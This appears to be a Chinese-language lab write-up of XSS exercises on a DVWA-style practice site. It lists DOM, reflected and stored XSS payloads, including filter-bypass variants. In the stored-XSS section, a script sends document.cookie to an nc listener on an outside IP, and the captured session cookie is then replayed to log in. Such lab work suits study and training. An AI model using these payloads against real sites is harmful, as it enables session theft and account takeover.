







# 1 xss dom

## low



#### default有可能是个传参点

```
http://8.148.75.207:55/vulnerabilities/xss_d/?default=%3Cscript%3Ealert(1)%3C/script%3E
```


## mid

```
http://8.148.75.207:55/vulnerabilities/xss_d/?default=%3Cimg%20src=#%20onerror=alert(1)%3E
```


## high

```
http://8.148.75.207:55/vulnerabilities/xss_d/?default=Spanish#%3Cscript%3Ealert(1)%3C/script%3E
```




# xss(reflected)

## low

```
http://8.148.75.207:55/vulnerabilities/xss_r/?name=%3Cscript%3Ealert(1)%3C/script%3E
```


## mid

```
http://8.148.75.207:55/vulnerabilities/xss_r/?name=%3Cscr%3Cscript%3Eipt%3Ealert(1)%3C/script%3E
```



## high

```
http://8.148.75.207:55/vulnerabilities/xss_r/?name=%3Cimg%20src%20=%201%20onerror%20=%20alert(1)%3E#
```


# xss stored

## low




每次进入网站会弹出来




## mid

##### 删除low的记录



同样先修改字符限制，在写入XSS代码,<script>标签被过滤了


双写解决

```
<scri<script>pt>alert(1)</script>
```


成功弹窗


# high

#### 删除mid记录

```

```


服务器安装nc开启监听

```
sudo apt install netcat-openbsd -y
nc -lvp 8888
```


传本机的cookie到nc机器

```

<script>new Image().src="http://13.75.42.219:8888/?output="+document.cookie;</script>

```


nc机器成功监听到cookie


获取cookie

```
GET /?output=PHPSESSID=59147pmbmgig63dgmdeubu7827;%20security=low HTTP/1.1
```


# 作业三 通过cookie登录

此时新设备登录没有密码



hackback构造cookie成功登录进去

